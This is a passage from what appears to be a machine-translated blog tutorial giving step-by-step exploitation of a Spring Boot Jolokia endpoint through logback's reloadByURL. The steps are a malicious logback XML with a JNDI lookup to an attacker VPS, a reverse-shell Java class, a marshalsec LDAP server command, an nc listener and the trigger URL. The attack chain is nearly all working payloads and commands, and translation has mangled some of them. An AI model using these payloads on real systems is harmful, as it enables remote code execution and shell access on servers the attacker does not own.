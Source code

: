 Place a file XML ending the example.xml following content:

```
< configuration >    < insertFromJNDI env-entry-name = "ldap://your-vps-ip:1389/JNDIObject" as = "appName" /></ configuration >
```

[](https://www.blogger.com/#)**Step 3: **Prepare the Java code for execution

- [Write an optimized Java sample code](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) to bounce the shell JNDIObject.java, Compile in a way compatible with lower versions of JDK:

```
javac - source 1.5 -target 1.5 JNDIObject.java
```

Then copy the generated JNDIObject.classfile to the root directory of the website in step 2 .\
[](https://www.blogger.com/#)Step 4: Set up a malicious LDAP service

Download [marshalsec](https://github.com/mbechler/marshalsec) and use the following commands to set up the corresponding ldap service:

|

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer [http://your-vps-ip:80/](http://your-vps-ip/)#JNDIObject 1389
```

 |

**Step 5:** Listen to the port of the bouncing shell

Generally, use nc to listen to the port and wait for the rebound shell

```
nc -lv 443
```

[](https://www.blogger.com/#)**Step 6: **Load the log configuration file from an external URL

- If the target successfully requests example.xml and marshalsec also receives the target request, but the target does not request JNDIObject.class, the high probability is that the JDK version of the target environment is too high, resulting in the failure of JNDI utilization.

Replacing the actual your-vps-ip address to access the URL triggers the vulnerability:

```
/jolokia/exec/ch .qos .logback .classic :Name=default,Type=ch .qos .logback .classic .jmx .JMXConfigurator /reloadByURL/http:!/!/your-vps-ip!/example.xml
```

[](https://www.blogger.com/#)

#### Vulnerability Principle:

- Directly accessing the URL that can trigger the vulnerability is equivalent to calling the method of the ch.qos.logback.classic.jmx.JMXConfiguratorclass through jolokiareloadByURL
